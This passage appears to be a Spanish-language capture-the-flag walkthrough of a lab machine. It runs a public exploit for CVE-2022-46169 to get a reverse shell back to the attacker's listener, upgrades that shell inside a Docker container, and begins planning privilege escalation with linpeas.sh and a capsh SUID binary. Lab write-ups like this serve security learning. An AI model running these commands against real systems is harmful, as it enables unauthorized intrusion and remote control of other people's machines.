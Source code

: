 ```bash
❯ python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.16.3 --LPORT=443
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

Verificamos que nos encontramos en el equipo, pero por lo que parece ser, nos encontramos dentro de un contenedor Docker.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.211] 37662
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ hostname -I
172.19.0.3 
```

Realizaremos la siguiente configuración para disponer de una `TTY` interactiva y poder mejorar nuestra experiencia utilizando la terminal.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.211] 37662
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell

www-data@50bca5e748b0:/var/www/html$ script /dev/null -c bash
Script started, output log file is '/dev/null'.

www-data@50bca5e748b0:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443

❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
                              
www-data@50bca5e748b0:/var/www/html$ export TERM=xterm
www-data@50bca5e748b0:/var/www/html$ export SHELL=bash
www-data@50bca5e748b0:/var/www/html$ stty rows 46 columns 230
```

## Initial Access

### Capsh SUID Binary Exploitation to gain root access

Nos encontramos con el usuario `www-data` en un contenedor de Docker del equipo víctima. Por lo tanto, realizaremos una enumeración para encontrar alguna vía para elevar nuestros privilegios.

Para ello, haremos uso de `linpeas.sh` el cual compartiremos a través de un servidor web.
